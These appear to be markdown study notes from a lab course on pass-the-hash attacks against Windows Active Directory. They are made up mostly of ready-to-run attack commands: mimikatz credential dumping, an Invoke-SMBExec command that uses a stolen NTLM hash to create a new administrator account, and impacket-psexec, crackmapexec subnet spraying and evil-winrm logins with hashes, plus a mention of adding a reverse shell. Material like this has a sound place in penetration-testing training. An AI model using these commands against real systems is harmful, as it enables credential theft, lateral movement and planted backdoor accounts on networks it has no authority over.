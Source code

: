 
##### Dumping hashes
```cmd
privilege::debug
sekurlsa::logonpasswords
```
### Invoke-The-Hash
[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) powerful set of powershell functions to preform pass-the-hash to WMI and SMB. 
Authentication is via passing a NLTM hash into a NLTMv2 Authentication protocol. 
*Local Admin not needed, but required on target machine*
To use this tool, we need to specify the following parameters to execute commands in the target computer:

- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
```powershell-session
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
We can then feed a reverse shell into this.

### PTH with Impacket
We can use psexec to preform this attack
```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
We can also use
- impacket-wmiexec
- impacket-atexec
- impacket-smbexec

### PTH with CrackMapExec
Crackmap is a post exploitation tool to help automatically assess security of large AD hosts.
Crackmap can password spray and attempt to authenticate using a hash to some or all hosts on the network. Possible to lock out domain accounts so keep target lockout policy in mind.
```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
If we want to use the local admins password hash we can add `--local-auth`

### PTH with evil-winrm
```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
